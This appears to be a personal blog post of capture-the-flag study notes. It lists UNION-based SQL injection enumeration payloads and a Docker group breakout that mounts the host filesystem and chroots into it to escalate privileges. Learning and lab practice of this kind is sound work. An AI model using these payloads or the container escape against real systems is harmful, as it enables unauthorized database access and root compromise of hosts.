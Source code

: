 
#+STARTUP: showall indent
#+STARTUP: hidestars
#+OPTIONS: num:nil toc:nil
#+BEGIN_EXPORT html
---
title:  SQL Injection...
categories:
  - blog
tags:
    - SQLi
    - XSS
---
#+END_EXPORT

As mentioned before, I discoverd a major blindspot on the Basic SQLi. how to perform Union Based enumeration.
Yes thanks for THM to show me how weak my game is there :)

So I spend some time on INE eJPT path, to really get into the basics again.... and yes it's quite simple if you know and now I know.

I quess this is a Enumeration methoth anyone can remember :)

#+begin_src sql :results output
'' UNION SELECT NULL--
'' UNION SELECT NULL,NULL--
'' UNION SELECT NULL,NULL,NULL--


'' UNION SELECT 'a',NULL,NULL,NULL--
'' UNION SELECT NULL,'a',NULL,NULL--
'' UNION SELECT NULL,NULL,'a',NULL--
'' UNION SELECT NULL,NULL,NULL,'a'--
#+end_src

More info can be found here:
https://portswigger.net/web-security/sql-injection/union-attacks


I spend some time on a CFT on THM, and finally made it. Learning some pritty cool stuff on excaping a docker container.

Reference:
https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation

Basically if you are in the docker group, you can do the following:

#+begin_src sh :results output
#Search the socket
find / -name docker.sock 2>/dev/null
#It's usually in /run/docker.sock
#+end_src

If found, than generate a new image, and mount the host filesystem into you image and chroot into it... thats a pretty nice.
Although not that realistic I guess, but good for CTFs

#+begin_src sh :results output
#List images to use one
docker images
#Run the image mounting the host disk and chroot on it
docker run -it -v /:/host/ ubuntu:18.04 chroot /host
#+end_src

